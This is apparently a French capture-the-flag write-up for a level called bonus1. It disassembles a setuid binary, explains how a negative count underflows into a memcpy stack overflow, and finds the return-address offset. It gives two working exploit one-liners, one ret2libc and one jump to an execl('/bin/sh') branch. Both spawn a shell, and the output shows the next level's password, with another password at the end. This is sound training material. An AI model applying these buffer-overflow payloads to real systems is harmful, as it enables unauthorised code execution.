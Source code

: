 # BONUS 1

On se connecte sur le bonus1, ou se trouve un **binaire** <code>bonus1</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus1
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **memcpy**.
On remarque qu'il y a une condition précisant que n doit être inférieur a 10, mais on souhaite faire overflow **memcpy** avec notre (n * 4), en sachant que notre buffer est de 40 et que notre ret2libc fait 12 bytes, on a donc besoin de minimum 52/4. On cherche donc un nombre négatif qui en underflow donne au moins 13.

```c
#include <stdio.h>
#include <stdlib.h>
#include <limits.h>

int main(int ac, char **av)
{
    if (ac != 2)
    {
        printf("need at least one arg\n");
        return (0);
    }
    int nb = atoi(av[1]);
    int res = INT_MIN / 2 + nb / 4;
    printf("Underflow of the number is : %d\n", res);
    return (1);
}
```

On cherche l'offset :

```gdb
(gdb) b *0x08048478
Breakpoint 1 at 0x8048478
(gdb) run 1 BBBB
Starting program: /home/user/bonus1/bonus1 1 BBBB

Breakpoint 1, 0x08048478 in main ()
(gdb) > x/100x $eax
0xbffff6f4:     0x42424242      0x08049764      0x080484d1      0xffffffff
...
(gdb) i f
Stack level 0, frame at 0xbffff730:
 eip = 0x8048478 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff728, args:
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
(gdb) p 0xbffff72c - 0xbffff6f4
$1 = 56
```

Donc notre offset est de 56.

A partir d'ici, nous avons plusieurs possibilités, soit un ret2libc, soit envoyer a l'adresse 0x08048482 qui va executer le **/bin/sh**.

# Première solution

<pre><code>> ./bonus1 -1073741807 $(python -c "print 'B' * 56 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x83\x85\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245</code></pre>

> Adresse de system : 0xb7e6b060
>
> Adresse de exit : 0xb7e5ebe0
>
> Adresse de /bin/sh : 0x08048583

# Deuxième solution

<pre><code>
./bonus1 -1073741809 $(python -c "print 'B' * 56 + '\x82\x84\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
</code></pre>


For download :
<pre><code>scp -P4242 bonus1@IP:bonus1 .</code></pre>
> Password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

